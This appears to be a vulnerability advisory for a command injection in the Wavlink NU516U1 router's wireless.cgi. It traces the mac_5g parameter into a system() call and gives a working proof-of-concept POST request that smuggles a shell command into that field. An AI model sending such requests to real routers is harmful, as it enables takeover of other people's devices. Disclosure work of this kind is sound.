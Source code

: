 # Wavlink NU516 SetName
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the mac_5g parameter in the sub_403198 function of the file wireless.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.

![](images/1.png)

Setting the value of the page parameter to SetName will call the sub_403198 function.

![](images/10.png)

In the sub_403198 function, the value of the mac_5g parameter is obtained via a post request. Then, the value of the mac_5g parameter is passed to the v10 variable via the sprintf function, which in turn is passed to the sub_405314 function. In the sub_405314 function, the value of the v10 variable is passed into the byte_41BCB4 variable, and finally into the system function.

![](images/11.png)

![](images/5.png)

### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 32
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1741017998
Connection: keep-alive

page=SetName&mac_5g=$(ls>/4.txt)
```
